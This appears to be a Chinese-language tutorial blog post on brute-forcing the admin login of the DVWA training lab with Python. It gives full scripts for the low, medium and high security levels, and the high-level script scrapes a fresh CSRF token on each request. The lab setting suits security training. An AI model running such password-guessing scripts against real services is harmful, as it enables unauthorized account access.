


# 使用python脚本暴力破解用户名和密码

## DVWA靶场

### low等级

```
import requests
import re

headers = {
    "Cookie": "PHPSESSID=522qlnikn69r17qctp2a6ed6m1; security=low" # 自己抓包获取的cookie
}
url = "http://dvwa/vulnerabilities/brute/" //要爆破的网址
res = requests.get(url, headers=headers)
# 一行一行读取密码字典，读取结果会自动在每一行拼接换行符，所以需要通过[:-1]获取密码的内容
# [:-1]表示去掉末尾的换行符，直接获取到password
filepasswords = open("password.txt", "r")
passwords = filepasswords.readlines()

for password in passwords:
    response = requests.get(url + "?username=admin" + "&password=" + password[:-1] + "&Login=Login", headers=headers)
    if not re.findall("Username and/or password incorrect", response.text):
        print("admin ===> " + password[:-1])

```

本质上就是利用脚本发送请求，遍历字典里的每一个密码，知道成功发送请求为止，不过这个脚本是在确定用户名为admin的情况下使用的

不得不承认，用python脚本爆破确实挺方便的，但是就是我不太会用python，必须加入学习项目了，一定要学会自己写脚本！！

### medium等级

```
import httplib2
import re

# 创建一个http对象
h = httplib2.Http( )
url = "http://dvwa/vulnerabilities/brute/"
header = {"cookie" : "security=medium"}
response,content=h.request(url,headers=header)
cookie = response["set-cookie"]

cookie = "522qlnikn69r17qctp2a6ed6m1"  #这里的cookie特指PHPSESSID=>作为变量存在
cookie = "security=medium; PHPSESSID="+cookie
header={"cookie": cookie}

filepasswords = open("password.txt","r")
passwords = filepasswords.readlines()

for password in passwords:
    tmp = url+"?username=admin"+"&password="+password[:-1]+"&Login=Login"
    # 发送GET请求
    res, content = h.request(tmp, "GET", "", header)
    if not re.findall("Username and/or password incorrect", str(content, encoding='utf-8')) or re.findall("CSRF token", str(content, encoding='utf-8')):
        print("admin ===> " + password[:-1])

```



### high等级

```
import requests
import re

headers = {
    "Cookie": "PHPSESSID=522qlnikn69r17qctp2a6ed6m1; security=high"
}
url = "http://dvwa/vulnerabilities/brute/"
res = requests.get(url,headers=headers)

# 从一个 HTML 页面中提取一个 <input> 标签的 value 属性值，赋值给变量 token。
token = re.findall("<input.*?value=\'(.*?)' />", res.text)[0]

filepasswords = open("password.txt","r")
passwords = filepasswords.readlines()

for password in passwords:
    response = requests.get(url+"?username=admin"+"&password="+password[:-1]+"&Login=Login&user_token="+token, headers=headers)
    token = re.findall("<input.*?value=\'(.*?)' />", response.text)[0]
    if not re.findall("Username and/or password incorrect", response.text) or re.findall("CSRF token", response.text):
        print("admin ===> " + password[:-1])

```



high等级low和medium等级的基础上，多了一个token，token可不是固定值，利用正则表达式可以拿到每一次的input内的value值(也就是taken值)，从而进行爆破


